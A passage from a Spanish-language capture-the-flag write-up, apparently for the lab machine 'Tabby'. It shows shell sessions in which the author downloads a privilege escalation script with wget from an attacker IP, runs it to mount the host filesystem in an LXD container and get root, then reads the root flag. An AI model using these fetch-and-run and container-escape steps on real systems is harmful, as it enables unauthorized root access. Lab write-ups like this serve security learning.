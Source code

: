 ```bash
ash@tabby:/dev/shm$ ls
alpine-v3.20-x86_64-20240922_0946.tar.gz
ash@tabby:/dev/shm$ wget http://10.10.16.13:80/privesc.sh
--2024-09-22 13:01:40--  http://10.10.16.13/privesc.sh
Connecting to 10.10.16.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1434 (1.4K) [text/x-sh]
Saving to: ‘privesc.sh’

privesc.sh                                    100%[================================================================================================>]   1.40K  --.-KB/s    in 0.04s   

2024-09-22 13:01:40 (37.3 KB/s) - ‘privesc.sh’ saved [1434/1434]
```

- Lo ejecutamos y ganaríamos acceso al sistema

```bash
ash@tabby:/dev/shm$ chmod +x privesc.sh 
ash@tabby:/dev/shm$ ./privesc.sh -f alpine-v3.20-x86_64-20240922_0946.tar.gz 
Image imported with fingerprint: 4f2acd3ab38aacfaf92e3e152debc5cea1135b4e82376bdf5738546821e2b843
[*] Listing images...

Creating privesc
Device giveMeRoot added to privesc         
~ # whoami
root
~ # 
```

- Como estamos haciendo uso de monturas nos vamos al directorio `/mnt/root` y ahi tendremos todo el sistema montado pero en nuestro contenedor con todos los privilegios

```bash
/ # cd mnt/
/mnt # ls
root
/mnt # cd root/
/mnt/root # ls
bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        sys         usr
boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         tmp         var
/mnt/root # cd root/
/mnt/root/root # ls
root.txt  snap
/mnt/root/root # cat root.txt 
cb0e018b***************
/mnt/root/root # 
```

